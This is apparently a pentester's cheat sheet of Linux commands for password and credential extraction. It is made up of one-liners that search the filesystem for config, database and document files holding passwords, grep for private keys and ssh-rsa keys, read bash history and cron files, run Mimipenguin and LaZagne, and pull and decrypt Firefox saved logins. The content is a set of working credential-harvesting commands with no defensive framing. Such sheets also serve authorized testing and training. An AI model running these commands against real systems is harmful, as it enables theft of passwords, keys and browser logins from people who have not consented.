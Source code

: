 # Bash - Password extraction

% linux, password extraction

## find - Search for config files
```
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib|fonts|share|core" ;done
```

## grep - Find credentials in files
```
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc|lib");do echo -e "\nFile: " $i; grep "user|password|pass" $i 2>/dev/null | grep -v "#";done
```

## find - Search for database files
```
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc|lib|headers|share|man";done
```

## find - Search for text files
```
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

## find - Search for script files
```
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc|lib|headers|share";done
```


## find - Search for document files
```
for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib|fonts|share|core" ;done
```

## View crontab contents
```
cat /etc/crontab
```

## List cron files
```
ls -la /etc/cron.*/
```

## Search for PRIVATE KEY
```
grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"
```

## Search for PRIVATE KEY in home
```
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

## Search for ssh-rsa keys
```
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

## View bash history
```
tail -n5 /home/*/.bash*
```

## Run Mimipenguin.py
```
python3 mimipenguin.py
```

## Run Mimipenguin.sh
```
bash mimipenguin.sh
```

## Run Lazagne.py
```
python2.7 lazagne.py all
```

## Search Firefox profiles
```
ls -l .mozilla/firefox/ | grep default
```

## View Firefox logins
```
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

## Decrypt Firefox credentials
```
python3.9 firefox_decrypt.py
```

## Run Lazagne browsers module
```
python3 lazagne.py browsers
```
